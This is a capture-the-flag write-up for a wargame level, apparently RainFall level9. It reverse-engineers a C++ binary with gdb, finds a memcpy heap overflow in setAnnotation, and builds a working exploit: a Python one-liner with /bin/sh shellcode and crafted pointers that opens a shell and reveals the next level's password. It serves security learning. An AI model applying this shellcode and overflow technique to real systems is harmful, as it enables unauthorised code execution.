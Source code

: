 # Level 9

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```


## Testing the program

```bash
$ ./level9 
$ ./level9 hello
$ ./level9 bye bye
$ ./level9 214
```

## Learning more 


```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.
```


Okay there are a few new things that are intriguing, that we managed to understood after a few research : 
```plaintext
   • _Znwj --> Mangled name for the 'new' operator in C++. 
   • _ZN1NC2Ei is also a mangled name, which gives : 
      • _Z → start of the mangle.  
      • N1N → class N
      • C2 → constructor
      • i → takes an int as an argument
   • _ZN1N13setAnnotationEPc --> Call to a member function of the class
      • Class N
      • Method setAnnotation
      • Parameter char* (Pc)
```

```plaintext
💡 Name mangling is used in C++ to make each function name unique by encoding information like parameter types and class scopes, allowing the linker to correctly identify overloaded functions. It's essential because C++ supports features like function overloading. 
```

If we use the c++filte we can unmangled the c++ functions

```bash 
c++filt _Znwj                            
operator new(unsigned int)
```


The program dereference (reads it) EAX 2 times at main+136 and there is a call on EDX at main+159

```bash
(gdb) info functions
[...]
0x08048510  memcpy
0x08048510  memcpy@plt
[...]
```

## Getting acces to the pass

Our goal : 
1. Overflow of the buffer in setAnnotation → overwriting in the objects memory
2. EAX now points to that object. 
3. The programm does a double dereference on EAX to retrive the pointer of a function
4. Thanks to the overflow, this pointer is replaced by the address of our shellcode which we injected in the buffer
5. The edx call, calls our malicious function. 


### Overflow of the buffer in setAnnotation → overwrriting in the objects memory

There is a memcpy call, we can overflow

   1.1 Finding the offset

```bash 
(gdb) run "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Starting program: /home/user/level9/level9 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441	1094083649
```

So our offet is : 
0x41366441 --> 108


   1.2 Finding where is our buffer in eax

The program uses the N object allocated on the stack at the address esp + 0x10. 
It is at that place, that is stored a pointed which will be derefenced twice to retrieve the function that is called. 
Therefore we must overwrite that value so that in points to our buffer (which contains the shellcode). However since there is a double dereference (*(*(...))), the value we put at esp + 0x10 must be an address that points to another address that points to the shellcode. 


So schematise here is what will happen 
```plaintext
[esp+0x10] = ptr1 (adresse)         |           eax = [esp+0x10]    // eax = ptr1
*ptr1 = ptr2 (adresse)              |           eax = *eax          // eax = ptr2
*ptr2 = shellcode                   |           call *eax           // appel vers shellcode
```


```bash 
(gdb) b *main+136                                    // Just after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```

So we will inject our shellcode at this address. 

## Making the Payload


[esp+0x10] → pointer to 0x804a00c --> \x10\xa0\x04\x08
0x804a00c → pointer to 0x804a010 (0x804a00c + 4) (shellcode) --> \x0c\xa0\x04\x08
0x804a010 → our shellcode

```plaintext
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

```

So we have
```bash
$ python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

```bash
level9@RainFall:~$ ./level9 $( python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```